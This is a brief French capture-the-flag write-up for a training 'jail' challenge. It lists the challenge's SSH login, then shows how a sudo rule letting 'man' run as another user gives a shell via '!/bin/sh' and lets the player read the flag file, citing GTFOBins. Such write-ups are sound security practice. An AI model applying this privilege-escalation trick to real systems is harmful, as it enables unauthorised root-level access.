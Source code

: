 Le flag est situé ici : /home/r00t/flag/flag.txt

Nom d'utilisateur : jail
Mot de passe : jail
ssh -p 4445 jail@intro.ctfrei.fr 

----------------------------------------

Avec sudo -l on voit que l'on peu utiliser man en tant que r00t.

Grâce au site https://gtfobins.github.io/gtfobins/man/ on apprend que la commande man nous permet d'obtenir un shell avec les droit de r00t.

sudo -u r00t man man
!/bin/sh
$cat /home/r00t/flag/flag.txt

